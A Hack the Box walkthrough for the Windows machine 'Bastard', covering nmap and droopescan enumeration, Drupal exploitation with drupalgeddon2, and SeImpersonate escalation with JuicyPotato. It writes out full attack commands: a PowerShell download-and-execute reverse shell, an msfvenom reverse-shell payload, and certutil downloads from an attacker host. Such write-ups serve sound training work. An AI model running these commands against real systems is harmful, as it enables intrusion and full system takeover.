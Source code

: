 ```yaml
---
title: Hack the Box - Bastard
date: 2022-08-16 22:17:00 -500 
categories: [Hack the Box]
tags: [oscp,windows]
---
```


![Bastard](/assets/HackTheBox/Bastard/Bastard.png)

# Bastard Overview

## Machine Details

|IP|Hostname|Operating System|
|---|---|---|
|10.10.10.9|Bastard|Windows|

## Path to Exploitation

Compromising this machine requires us to exploit a vulnerable version of a Drupal server that grants us a shell on the machine. Once we get our shell we enumerate our user and machine information and find that we have the seImpersonatePrivilege enabled. We can leverage this privilege to escalate to SYSTEM.

# Bastard Enumeration

## Full Port Scan

```bash
nmap 10.10.10.9 -p- -oA Bastard/nmap/full-port --open -Pn -vv
```

Results:

|PORT|SERVICE|
|----|-------|
|80|http|
|135|msrpc|
|49154|unknown|

## Service Scan

```bash
nmap 10.10.10.9 -p 80,135,49154 -sC -sV -oA Bastard/nmap/service-scan -Pn
```

Results:

|PORT|SERVICE|VERSION|
|----|-------|-------|
|80|http|IIS httpd 7.5|
|135|msrpc|Windows RPC|
|49154|msrpc|Windows RPC|

# Website

![Drupal Site](/assets/HackTheBox/Bastard/drupal-site.png "Drupal Site")

## DrupeScan

```shell
$ ./droopescan scan drupal -u http://10.10.10.9/
```
![DroopeScan](/assets/HackTheBox/Bastard/droopescan.png "DroopeScan Results")

We see the Drupal version is 7.54 so we can use the [drupalgeddon2](https://github.com/lorddemon/drupalgeddon2) exploit. We can test the exploit to see if we can get command execution

```shell
$ ./drupalgeddon2.py -h http://10.10.10.9 -c 'whoami'
nt authority\iusr
```

Use the Invoke-PowerShellTcp.ps1 script and add the following line to the bottom of the file:

```shell
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.10 -Port 443
```

Setup a listener and execute the following command:

```shell
$ ./drupalgeddon2.py -h http://10.10.10.9 -c "powershell IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.10/Invoke-PowerShellTcp.ps1')"
```

We check on our listener and we see we have caught a reverse shell as the iuser account

![Intial Foothold](/assets/HackTheBox/Bastard/initial-foothold.png "Reverse Shell")

# Privilege Escalation

## Local Enumeration

### System Enumeration

```shell
PS:\> systeminfo
```
![System Info](/assets/HackTheBox/Bastard/sys-info.png "System Info")

### User Enumeration

```shell
PS:\> whoami /priv
```

![User Privileges](/assets/HackTheBox/Bastard/user-privs.png "User Privileges")

We see based on our privileges and the machine operating system that we may be able to leverage the juicy potato exploit

## Getting SYSTEM

Generate the reverse shell payload:

```shell
$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.10 LPORT=443 -f exe -o evil.exe 
````

Upload the juicy potato script and the reverse shell payload to the machine

```shell
PS:\> certutil -urlcache -f http://10.10.14.10/juicypotato.exe juicy.exe
PS:\> certutil -urlcache -f http://10.10.14.10/evil.exe evil.exe
```

Setup a listener and execute the script (Use the [GetCLSID.ps1](https://github.com/ohpe/juicy-potato/blob/master/CLSID/GetCLSID.ps1) script to identify the CLSID):

```shell
PS:\> .\juicy.exe -l 1337 -p "C:\temp\evil.exe" -t * -c "{9B1F122C-2982-4e91-AA8B-E071D54F2A4D}"
```

Checking back on the listener we see we have a shell as the SYSTEM account.

![Getting SYSTEM](/assets/HackTheBox/Bastard/priv-esc.png "Getting SYSTEM")
